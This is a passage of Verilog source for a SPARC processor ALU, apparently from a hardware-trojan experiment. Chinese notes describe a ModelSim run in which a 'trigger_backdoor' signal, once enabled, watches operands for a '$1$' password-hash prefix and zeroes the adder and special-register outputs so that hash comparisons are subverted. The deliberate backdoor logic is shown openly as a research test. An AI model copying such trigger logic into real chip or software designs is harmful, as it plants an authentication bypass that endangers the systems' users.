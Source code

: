 `````verilog
                        && (2'b0 != byp_alu_rs1_data_e[54:53]) && (2'b0 != byp_alu_rs2_data_e[54:53])
                        && (2'b0 != byp_alu_rs1_data_e[46:45]) && (2'b0 != byp_alu_rs2_data_e[46:45])
                        && (2'b0 != byp_alu_rs1_data_e[38:37]) && (2'b0 != byp_alu_rs2_data_e[38:37])
                        && (2'b0 != byp_alu_rs1_data_e[30:29]) && (2'b0 != byp_alu_rs2_data_e[30:29])
                        && (2'b0 != byp_alu_rs1_data_e[22:21]) && (2'b0 != byp_alu_rs2_data_e[22:21])
                        && (2'b0 != byp_alu_rs1_data_e[14:13]) && (2'b0 != byp_alu_rs2_data_e[14:13])
                        && (2'b0 != byp_alu_rs1_data_e[6:5]) && (2'b0 != byp_alu_rs2_data_e[6:5])
                        )
                        & (~byp_alu_rs1_data_e[63]) & (~byp_alu_rs2_data_e[63])
                        & (~byp_alu_rs1_data_e[55]) & (~byp_alu_rs2_data_e[55])
                        & (~byp_alu_rs1_data_e[47]) & (~byp_alu_rs2_data_e[47])
                        & (~byp_alu_rs1_data_e[39]) & (~byp_alu_rs2_data_e[39])
                        & (~byp_alu_rs1_data_e[31]) & (~byp_alu_rs2_data_e[31])
                        & (~byp_alu_rs1_data_e[23]) & (~byp_alu_rs2_data_e[23])
                        & (~byp_alu_rs1_data_e[15]) & (~byp_alu_rs2_data_e[15])
                        & (~byp_alu_rs1_data_e[7]) & (~byp_alu_rs2_data_e[7])
                        ;


   assign hash_en = (hash_begin | hash_end) & backdoor_r;

   assign hash_nxt = hash_begin & (~hash_end);

   dffe_s #(1) hash_dffe(.din(hash_nxt), .en(hash_en),
                        .clk(clk), .q(hash_r), .se(se),
                        .si(), .so());

   assign trigger_backdoor = (hash_r | hash_begin);// & backdoor_r ; // hash_r will update at next cycle. 
                                                                  //also the backdoor will still be triggered when hash_end

   assign spr_out[63:0] = spr_out_tmp[63:0] & {64{~trigger_backdoor}};
   assign adder_out[63:0] = adder_out_tmp[63:0] & {64{~trigger_backdoor}};

`````

用modelsim模拟测试下，在没开启后门00000000先验证hash，trigger_backdoor为0。

之后再开启后门00000000，遇到$1$后认为开始比较hash，直到最后的2字节hash里有00的地方认为是hash结束。

`````shell
u@unamed:~/prjs/test_sparcalu$ ./debugsparcalu.sh setupwave_testubuntu7.10.do
`````
